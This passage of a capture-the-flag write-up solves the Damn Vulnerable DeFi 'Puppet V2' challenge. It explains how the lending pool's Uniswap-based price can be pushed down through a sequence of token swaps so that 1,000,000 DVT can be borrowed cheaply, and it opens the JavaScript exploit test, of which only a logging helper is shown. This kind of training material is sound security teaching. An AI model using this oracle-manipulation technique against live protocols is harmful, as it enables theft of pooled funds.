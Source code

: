 The price is indirectly proportional to the amount of `reservesToken`: if we increase the amount of `reservesToken`, the denominator in the formula will be higher, and thus the resulting value will be smaller.


Here are the current balances:
- we have `20 ETH` ([setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet-v2/puppet-v2.challenge.js#L22-L25)) and `10000 DVT` ([setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet-v2/puppet-v2.challenge.js#L15))
- the Uniswap exchange has `10 WETH` and `100 DVT` ([setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet-v2/puppet-v2.challenge.js#L12-L13))
- the pool has `1000000 DVT` ([setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet-v2/puppet-v2.challenge.js#L16))


The initial `WETH` deposit required to borrow `1000000 DVT` is ` 300000 WETH`:

```
price = (amount * reservesWETH / reservesToken) * 3
price = (1000000 * 10 / 100) * 3 = 300000
```


## 3) Solution

To reduce the `DVT` price, I used the following approach:
1) sell all the `DVT` for `WETH` (this increases the `DVT` amount) by calling `swapExactTokensForTokens`
2) sell all our `ETH` for `DVT` by calling `swapExactETHForTokens`
3) sell the `DVT` for `WETH` by calling `swapExactTokensForTokens` (this increases the `DVT` amount)
4) borrow the `1000000 DVT` (that will cost `~29.6 WETH`)

`puppet-v2.challenge.js`:
```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        let provider = ethers.provider
        const deadline = (await ethers.provider.getBlock('latest')).timestamp * 2

        function formatOutput(val){
            return parseFloat(ethers.utils.formatEther(val)).toFixed(3)
        }

        async function logData() {

            let row1 = {
                "pool DVT": formatOutput(await this.token.balanceOf(this.lendingPool.address)),
                "pool WETH": formatOutput(await this.weth.balanceOf(this.lendingPool.address)),
                "pool balance": formatOutput(await provider.getBalance(this.lendingPool.address)),
                "attacker DVT": formatOutput(await this.token.balanceOf(attacker.address)),
                "attacker WETH": formatOutput(await this.weth.balanceOf(attacker.address)),
                "attacker balance": formatOutput(await provider.getBalance(attacker.address)),
                "exchange DVT": formatOutput(await this.token.balanceOf(this.uniswapExchange.address)),
                "exchange WETH": formatOutput(await this.weth.balanceOf(this.uniswapExchange.address)),
                "exchange balance": formatOutput(await provider.getBalance(this.uniswapExchange.address))
            };

            let depositRequired = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
            console.table([row1]);
```